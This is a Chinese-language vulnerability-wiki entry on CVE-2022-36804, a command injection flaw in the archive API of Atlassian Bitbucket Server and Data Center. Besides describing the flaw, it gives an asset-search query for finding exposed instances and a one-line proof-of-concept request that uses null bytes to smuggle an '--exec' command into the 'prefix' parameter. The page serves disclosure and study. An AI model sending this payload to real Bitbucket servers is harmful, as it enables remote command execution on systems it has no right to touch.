


# Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 7.0至8.3过粗未分支patch排除
- 公开项目或私有仓库读权限是重要前提，非所有无认证实例
- 硬编码BIZEE仓库需变量化
- 无官方公告链接/修复版本
- 受影响自托管不等Bitbucket Cloud

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

```
Atlassian Bitbucket 7.0～8.3
```

## 网络测绘

```
app="ATLASSIAN-Bitbucket"
```

## 漏洞复现

登录页面




验证POC

```
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
